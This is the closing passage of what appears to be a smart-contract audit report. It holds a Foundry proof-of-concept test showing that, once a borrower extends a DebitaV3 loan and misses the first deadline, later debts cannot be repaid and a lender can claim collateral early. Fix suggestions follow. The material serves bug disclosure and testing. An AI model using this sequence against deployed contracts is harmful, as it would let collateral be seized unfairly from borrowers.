 ```js
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        DebitaV3LoanContract = DebitaV3Loan(loan);

        // set timestamp to 10% off initial duration to call extendLoan
        uint256 tenPercentOfLoan_duration = (loan_duration * 1000) / 10000;
        vm.warp(tenPercentOfLoan_duration + 1000); // add 1000 just to make sure we are past the 10% of initial duration

        vm.startPrank(borrower_1);
        IERC20(AERO).approve(address(DebitaV3LoanContract), 100e18);
        DebitaV3LoanContract.extendLoan();
        // now each offer has deadline extended to max duration

        // set timestamp to loan_duration + 11 so borrower loses the first deadline at loan_duration + 10
        vm.warp(loan_duration + 11);

        // CASE 1: borrower tries to pay the debt of index 1 and 2 whose deadline at loan_duration + 20 and + 30 respectively
        uint256[] memory indexes = allDynamicData.getDynamicUintArray(2);
        indexes[0] = 1;
        indexes[1] = 2;
        vm.expectRevert();
        DebitaV3LoanContract.payDebt(indexes);

        // CASE 2: lender now tries to claim collateral of index 2, whose deadline at loan_duration + 30, at loan_duration + 11
        vm.startPrank(lender_2);
        uint256 balanceBeforeClaimCollateralLender_2 = IERC20(USDC).balanceOf(lender_2);
        DebitaV3LoanContract.claimCollateralAsLender(2);
        uint256 balanceAfterClaimCollateralLender_2 = IERC20(USDC).balanceOf(lender_2);
        // if claim successfull, lender_2 USDC balance should increase
        assert(balanceBeforeClaimCollateralLender_2 < balanceAfterClaimCollateralLender_2);
    }
```

then run the following command `forge test --mt test_PoC_extendLoanAndMissFirstDeadlineWouldPreventBorrowerToPayAnyDebt`
the test would PASS

### Mitigation

1. change the logic of `nextDeadline` to handle if the earliest max deadline has already passed without breaking how the collateral claim is done (recommended)
2. if logic of `nextDeadline` is preserved, make a way for the state `offer.paid` to change to `true` for the missed deadline by claiming the collateral to the lender when borrower calls `payDebt` 
